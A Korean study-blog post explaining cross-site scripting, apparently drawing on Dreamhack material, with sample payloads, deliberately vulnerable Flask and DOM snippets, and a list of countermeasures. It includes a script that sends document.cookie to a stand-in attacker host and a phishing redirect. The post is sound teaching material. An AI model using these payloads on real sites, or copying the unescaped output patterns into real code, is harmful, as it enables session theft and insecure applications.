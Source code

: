 ```yaml
---
title: "[2025-07-10] XSS"
excerpt: "XSS 개념 정리"

categories:
  - Justice
tags:
  - [XSS]

permalink: /Justice/[2025-07-10] XSS/

toc: true
toc_sticky: true

date: 2025-07-10
last_modified_at: 2025-07-10
---
```


## 🦥 본문

### 정의

Cross-Site Scripting. 웹 페이지에 악성 스크립트를 삽입해서, 의도하지 않은 스크립트를 실행시키는 웹 해킹 기법

### 악성 스크립트

쿠키 및 세션 탈취 공격 코드 

```jsx
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

페이지 변조 코드

```jsx
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

위치 이동 공격 코드

```jsx
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

### Reflected XSS

악성 스크립트를 URL, form 등에 삽입하여 백엔드에서 해석하고 처리되어 페이지에 반영하는 형태. 공격자의 입력이 즉시 페이지 응답에 반영한다. 

악성 스크립트가 포함된 링크에 접속하도록 유도해야 하는 데 직접 링크를 전달하는 방법보다는 Click Jacking 또는 Open Redirect 방법과 연계하여 사용한다 

```python
**from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def index():
    # http://localhost:5000/?name=<script>alert('XSS');</script>
    name = request.args.get('name', 'World')
    return f"<h1>Hello {name}!</h1>"  # not enough filtering : XSS possible

if __name__ == '__main__':
    app.run(debug=True)**
```

위와 같은 경우 GET 방식으로 name을 받아서 실행하는 데, name 부분을 악성 스크립트를 넣어서 보내 공격자가 원하는 JS code를 실행시킬 수 있다. 

### Stored XSS

악성 스크립트를 서버에 저장하게 하여 이후 해당 데이터를 조회하는 다른사용자에게 스크립트가 실행되게 하는 방식. 다른 사용자에게 자동 전파가 가능하여 가장 위험한 XSS 중 하나이다. 

```python
@app.route('/submit', methods=['GET', 'POST'])
def submit():
    if request.method == 'POST':
        msg = request.form.get('message', '')
        conn = get_db()
        conn.execute("INSERT INTO messages (content) VALUES (?)", (msg,))
        conn.commit()
        conn.close()
        return redirect('/messages')
    
    return '''
        <form method="post">
            <input type="text" name="message">
            <input type="submit">
        </form>
    '''

@app.route('/messages')
def messages():
    conn = get_db()
    msgs = conn.execute("SELECT content FROM messages").fetchall()
    conn.close()
    output = "<h1>Messages</h1>"
    for m in msgs:
        output += f"<p>{m['content']}</p>"
    return output

if __name__ == '__main__':
    app.run(debug=True)

```

/submit API를 통해 message를 받게 된다. 이 때 악성 스크립트를 보내어 DB에 저장하게 한다.

/message API에서 메시지 값들을 보여줄 때, 악성 스크립트가 같이 실행된다.  

### DOM-based XSS

브라우저의 JS code가 직접 DOM에 반영하면서 발생하는 XSS이다. 서버가 아닌 클라이트 측에서 발생한다. 

```python
// 해시를 읽어서 페이지에 출력
const comment = location.hash.slice(1);
document.getElementById("output").innerHTML = comment;

https://example.com/#<script>alert(1)</script>
```

해시를 읽어서 페이지에 출력하는 코드에서 아래와 같은 URL을 입력하면 의도하지 않는 스크립트가 실행된다.

### Universal XSS (UXSS)

브라우저의 취약점을 이용해 발생하는 XSS 공격. SOP를 무시하고 다른 도메인의 쿠키, 세션, 로컬 스토리지에 접근 하는 공격 

### 대응 방안

1. 입력값 검증 및 필터링
    
    → 특수 기호나 “Script” 등의 위험한 문자열 검열
    
2. 출력 시 인코딩
    
    → 브라우저에 출력되기 전 URL encoding, HTML encoding으로 XSS를 방지
    
3. 라이브러리/API 내부 보호기작 : Flask, node.js
    
    → ex) Flask의 render_template() 함수를 사용해 리소스를 띄우면 내부 로직에서 XSS 필터링이 동작
    
4. Set HttpOnly flag on Cookies
    
    → Cookie는 Client 측 Script 등에서 접근 불가. 백엔드에서 읽고 줄 수 있음
    
5. CSP : “src” attribute 등에 Get 요청을 보내는 것을 허용하는 규칙을 세울 수 있음. HTML의 meta 태그에서 확인/설정 가능. HTTP Header에서도 볼 수 있으며 이를 토해 브라우저는 Get 요청을 보낼 수 있는 서버를 제한